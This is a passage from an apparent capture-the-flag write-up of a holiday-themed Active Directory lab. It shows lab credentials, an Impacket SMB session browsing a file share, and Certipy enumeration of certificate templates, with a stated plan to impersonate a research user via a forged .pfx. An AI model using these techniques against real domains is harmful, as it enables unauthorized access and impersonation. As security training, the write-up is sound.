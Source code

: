 Important info from that:
```
UserName: elfy
UserDomain: northpole.local
Password: J4`ufC49/J4766
DC IP: 10.0.0.53
```

Can I access the share using those creds? Yes!

```
alabaster@ssh-server-vm:~$ smbclient.py northpole.local/elfy@10.0.0.53
Impacket v0.11.0 - Copyright 2023 Fortra

Password: <paste it in here, right click>
Type help for list of commands

# use FileShare
# ls
drw-rw-rw-          0  Tue Dec 19 01:15:12 2023 .
drw-rw-rw-          0  Tue Dec 19 01:15:09 2023 ..
-rw-rw-rw-     701028  Tue Dec 19 01:15:11 2023 Cookies.pdf
-rw-rw-rw-    1521650  Tue Dec 19 01:15:12 2023 Cookies_Recipe.pdf
-rw-rw-rw-      54096  Tue Dec 19 01:15:12 2023 SignatureCookies.pdf
drw-rw-rw-          0  Tue Dec 19 01:15:12 2023 super_secret_research
-rw-rw-rw-        165  Tue Dec 19 01:15:12 2023 todo.txt


alabaster@ssh-server-vm:~$ cat todo.txt
1. Bake some cookies.
2. Restrict access to C:\FileShare\super_secret_research to only researchers so everyone cant see the folder or read its contents
3. Profit
```

I will need to impersonate someone from the research department to download the files.

To find a list of users to impersonate, `impacket` may come in handy.

I also need the ability to generate a .pfx. 

Messing around with `certipy`:

```
alabaster@ssh-server-vm:~$ certipy find -u elfy@northpole.local
Certipy v4.8.2 - by Oliver Lyak (ly4k)

Password:
[!] Failed to resolve: NORTHPOLE.LOCAL
[!] Failed to resolve: NORTHPOLE.LOCAL
[-] Got error: invalid server address
[-] Use -debug to print a stacktrace
alabaster@ssh-server-vm:~$ certipy find -u elfy@northpole.local -dc-ip 10.0.0.53
Certipy v4.8.2 - by Oliver Lyak (ly4k)

Password:
[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'northpole-npdc01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'northpole-npdc01-CA' via RRP

[*] Got CA configuration for 'northpole-npdc01-CA'
```